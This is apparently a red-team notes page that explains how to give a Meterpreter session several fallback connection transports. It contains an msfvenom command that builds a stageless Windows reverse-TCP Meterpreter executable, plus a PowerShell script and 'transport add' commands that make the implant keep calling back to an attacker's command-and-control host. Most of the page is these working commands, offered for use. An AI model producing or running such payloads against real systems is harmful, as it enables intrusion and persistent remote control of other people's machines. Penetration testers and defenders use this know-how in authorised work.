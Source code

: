 * **The type of transport (TCP, HTTP, etc.)**
* **The host to connect to**
* **The port to connect on**
* **A URI, for HTTP-based transports**
* **Other properties such as retry times and timeouts**

Once a Meterpreter session has been set up, you can add a transport using the command transport add and providing it with parameters (type transport to see the options).

By setting up multiple transports in this initialisation script, Meterpreter will try each of them (for a configurable amount of time), before moving on to the next one.

#### To do this:

Create a stageless meterpreter payload, which pre-loads the PowerShell extension. The transport used on the command line will be the default Include a PowerShell script as an “Extension Initialisation Script” (parameter name is extinit, and has the format of ,). This script should add additional transports to the Meterpreter session. When the shellcode runs, this script will also run If the initial transport (the one specified on the command line) fails, Meterpreter will then try each of these alternative transports in turn.

in AddTransports.ps1 :

```
Add-TcpTransport -lhost <host> -lport <port> -RetryWait 10 -RetryTotal 30
Add-WebTransport -Url https://<host>:<port>;-RetryWait 10 -RetryTotal 30
Add-WebTransport -Url http://<host>:<port>;-RetryWait 10 -RetryTotal 30
```

#### The command line for this would be:

```
msfvenom -p windows/meterpreter_reverse_tcp lhost=<host> lport=<port> sessionretrytotal=30 sessionretrywait=10 extensions=stdapi,priv,powershell extinit=powershell,/home/ionize/AddTransports.ps1 -f exe
```

#### Some got chas to be aware of:

* Make sure you include the full path to the extinit parameter (relative paths don’t appear to work)
* Ensure you configure how long to try each transport before moving on to the next.
* RetryWait is the time to wait between each attempt to contact the C2 server
* RetryTotal is the total amount of time to wait before moving on to the next transport
* Note that the parameter names for retry times and timeouts are different between the PowerShell bindings and the Metasploit parameters themselves:
  * in the PowerShell extension, they are RetryWait and RetryTotal; in Metasploit they are SessionRetryWait and SessionRetryTotal (a tad confusing, as they relate to transports, not sessions)

### <mark style="color:orange;">Manually Creating Transport in Meterpreter Session</mark>

```
transport add -t [transport type, i.e: reverse_https] -l [lhost] -p [lport] -T [retry total time] -W [retry wait] -C [comm timeout] 
transport add -l 192.168.56.1 -p 7878 -t reverse_https -T 3000 -W 10 -C 1000000
```
